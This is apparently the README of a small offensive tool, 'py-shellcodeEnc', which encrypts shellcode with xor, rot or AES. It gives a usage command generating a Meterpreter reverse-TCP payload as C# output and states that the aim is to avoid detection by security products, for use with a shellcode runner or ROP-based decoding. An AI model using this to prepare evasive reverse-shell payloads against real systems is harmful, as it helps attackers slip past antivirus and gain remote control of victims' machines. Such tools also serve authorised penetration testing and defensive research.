 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.

This is mainly for:
Avoiding getting flagged because of msfvenom meterpreter encoded builtin decoder which is a red flag for any security solution.

1 - using with a shellcode runner with decryption routine implemented.

2 - DEP with ROP decode and etc..
